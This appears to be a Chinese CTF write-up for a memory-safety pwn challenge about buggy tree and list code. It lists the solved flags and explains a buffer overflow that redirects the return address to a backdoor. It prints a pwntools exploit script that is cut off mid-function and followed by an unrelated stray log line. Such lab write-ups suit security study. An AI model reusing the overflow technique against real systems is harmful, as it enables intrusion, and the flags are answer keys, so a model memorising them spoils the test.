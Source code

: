 ### 生活在树上 ~#binary-rtree~

#### 题目描述

小 R 同学是个计算机系的学生。他听说在数据结构的课上，要求手搓二叉树。

小 R 同学虽然不会写二叉树，但是他认真思考，进行了多次尝试。

在一开始，小 R 同学不知道动态分配内存为何物，于是**在栈上开辟出数组，**用来插入申请的节点，为了不产生溢出。他做了必要的检查。

小 R 同学继续学习，此时他不仅学了**堆空间**，更接触到了**链表的数据结构**。小 R 同学灵光一现：链表也就是一种特殊的树吖！于是他手搓了一个链表，并且实现了基本操作。

最后，小 R 同学终于学到了**二叉树**，他发现这真是太神奇了！小 R 同学动手搓了一个基础版的二叉树，并且按照他的理解进行了创新。

你看到了小 R 同学的三份代码，发现其中都存在漏洞。你决定利用这些漏洞，让小 R 同学明白内存安全的重要性。（小 R 同学：别骂了我错了，下次一定注意qwq）

#### 解题结果

|  flag   |                 flag 内容                  |    解出时间    |
| :-----: | :----------------------------------------: | :------------: |
| Level 1 |   flag{c0ngR4ts_0n_F1NdInG_TH3_Backd00r}   | 10-16 13:06:12 |
| Level 2 | flag{y0u_cl1m6d_a_ST3P_h1gh3r_oN_tH3_tr33} | 10-16 14:38:15 |
| Level 3 |                   未解出                   |       -        |

#### 解题过程

这道题的前两问都比较新手友好，基本上找到内存漏洞后直接就可以利用。

Level 1 在存储数据的时候先把 size 加了 24，再读取新的 size 这么多个字节，导致可以泄露 24 个字节的数据，覆盖栈上 main 函数的返回地址到 backdoor. 然而我在成功触发 backdoor 后出现了 segmentation fault，检查了半天也没查出个所以然来。用 gdb 调试发现是在 `movaps XMMWORD PTR [rsp+0x50], xmm0` 指令出现的段错误，询问 ChatGPT 后得知是栈没有对齐导致的——使用这条指令要求 rsp 必须是 16 的倍数。知道原因后就很容易解决了，只需要跳过 backdoor 开头的 `push rbp` 指令就能让 rsp 变为 16 的倍数。完整脚本如下：

```python
from pwn import *
p = process(['nc', 'prob12.geekgame.pku.edu.cn', '10012'])
p.recvuntil(b'your token:')
p.sendline(b'... my token ...')

payload = b'0' * 496 + 0x40122c.to_bytes(8, 'little')
for i in payload:
    print(chr(i), end='')

p.recvuntil(b'>>')
p.sendline(b'1')
p.recvuntil(b'the node key:')
p.sendline(b'1')
p.recvuntil(b'the size of the data:')
p.sendline(b'480')
p.recvuntil(b'the data:')
p.sendline(b'\0' * 496 + 0x401231.to_bytes(8, 'little'))	# backdoor 的地址实际上是 0x40122c
p.recvuntil(b'>>')
p.sendline(b'4')

def read_until_timeout(proc, timeout=1.0):
    output = b""
    proc.timeout = timeout
    while True:
        try:
            chunk = proc.recv(timeout=timeout)
            if not chunk:
                break
            output += chunk
        except EOFError:
            break
        except timeout:
```

[2024:09:30:17:14:29]: Debug: --begin keyboard packet--